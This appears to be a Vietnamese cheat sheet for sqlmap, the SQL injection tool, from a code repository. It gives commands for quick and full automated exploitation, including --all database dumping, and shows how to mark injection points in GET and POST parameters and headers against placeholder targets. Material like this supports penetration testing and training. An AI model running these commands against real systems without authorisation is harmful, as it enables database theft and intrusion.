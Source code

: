 > [!NOTE]
> Những dữ liệu năm trong ngoặc ngọn ```<>``` là dữ liệu tuỳ chỉnh
## Khai thác nhanh (bỏ qua các tuỳ chọn)
- Lệnh quét nhanh sẽ bỏ qua các tuỳ chọn được đưa ra trong quá trình quét, nhưng vẫn có thể thu về các thông tin cơ bản về lỗ hổng
- Câu lệnh sử dựng khi chưua có thông tin về mục tiêu
  
		sqlmap -u "<http://example.com>" --forms --flush-session --answers="form=Y,fill blank fields=n,skip=Y,tests=N,follow=N,keep=N,quit=Y,resume=Y" --batch
- **Lưu ý**: Tuỳ chọn ```--flush-session``` để xoá phiên làm việc trước đó, nếu cần sử dụng dữ liệu từ phiên làm việc trước thì cần bỏ tuỳ chọn này
## Khai thác toàn bộ
- Quét và thực hiện khai thác lỗ hổng với các tuỳ chọn mặc định
  
		sqlmap -u "<http://example.com>" --forms --flush-session --batch --all
- **Lưu ý**: Tuỳ chọn ```--flush-session``` để xoá phiên làm việc trước đó, nếu cần sử dụng dữ liệu từ phiên làm việc trước thì cần bỏ tuỳ chọn này
## Tuỳ chỉnh
- Lệnh cơ bản:

		sqlmap -u <URL> [OPTIONS]
- Ta sẽ kết hợp câu lệnh cơ bản với các tuỳ chọn để phù hợp với từng mục đích
### Cung cấp thông tin Request
- Cung cấp file Request:
  
		sqlmap -r <req.txt> --batch
- Cung cấp tham số cho GET Request:

		sqlmap -u "<http://example.com/?id=*>" -p id --batch
- Cung cấp tham số cho POST Request:
  
 		sqlmap -u "<http://example.com>" --data "username=*&password=*" --batch
- Cung cấp Headers:

		sqlmap -u "<http://example.com>" --headers="<x-forwarded-for:127.0.0.1*>" --batch
		sqlmap -u "<http://example.com>" --headers="<referer:*>"
		
		sqlmap -u http:/127.0.0.1:9991/www/SQL/sql1.php --data="firstname=&submit=Submit" --user-agent="Mozilla/5.0" --batch

	- ```--data=DATA```: Cung cấp tham số cho POST Request
  		- ```-p ID```: Cung cấp tham số cho GET Request
	- ```--user-agent=AGENT```: Cung cấp user-agent của mục tiêu
